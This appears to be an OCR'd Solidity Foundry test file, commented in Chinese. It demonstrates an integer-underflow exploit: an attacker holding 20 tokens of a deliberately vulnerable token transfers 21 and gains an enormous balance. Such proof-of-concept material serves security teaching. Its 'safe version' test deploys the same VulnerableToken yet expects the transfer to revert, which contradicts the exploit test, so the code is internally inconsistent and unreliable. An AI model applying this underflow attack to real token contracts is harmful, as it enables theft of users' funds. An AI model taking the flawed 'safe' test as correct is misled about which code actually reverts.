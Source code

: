 ```solidity
        // 部署代币合约，初始供应量 1000
        token = new VulnerableToken(1000);
        
        // 给攻击者 20 个代币
        token.transfer(attacker, 20);
    }

    function testTokenUnderflowExploit() public {
        console.log("=== 攻击前状态 ===");
        console.log("攻击者余额:", token.balanceOf(attacker));
        console.log("受害者余额:", token.balanceOf(victim));
        
        vm.startPrank(attacker);
        
        // 🎯 关键攻击：转账超过余额的代币
        uint256 transferAmount = 21; // 大于 20 的余额
        token.transfer(victim, transferAmount);
        
        vm.stopPrank();
        
        console.log("=== 攻击后状态 ===");
        console.log("攻击者余额:", token.balanceOf(attacker));
        console.log("受害者余额:", token.balanceOf(victim));
        
        // 验证下溢攻击成功
        assertGt(token.balanceOf(attacker), 1000000); // 攻击者获得巨额代币
        assertEq(token.balanceOf(victim), transferAmount);
    }
    
    function testUnderflowMath() public view {
        // 演示下溢计算
        uint256 balance = 20;
        uint256 transferAmount = 21;
        
        console.log("=== 下溢计算演示 ===");
        console.log("原始余额:", balance);
        console.log("转账金额:", transferAmount);
        
        unchecked {
            uint256 result = balance - transferAmount;
            console.log("下溢结果:", result);
            console.log("最大 uint256:", type(uint256).max);
            console.log("是否相等:", result == type(uint256).max);
        }
    }
    
    function testSafeVersion() public {
        // 演示安全版本
        VulnerableToken safeToken = new VulnerableToken(1000);
        safeToken.transfer(attacker, 20);
        
        vm.startPrank(attacker);
        
        // 在 Solidity 0.8.0+ 中，这会 revert
        vm.expectRevert(); // 期望交易失败
        safeToken.transfer(victim, 21); // 这在新版本中会失败
        
        vm.stopPrank();
    }
}
```

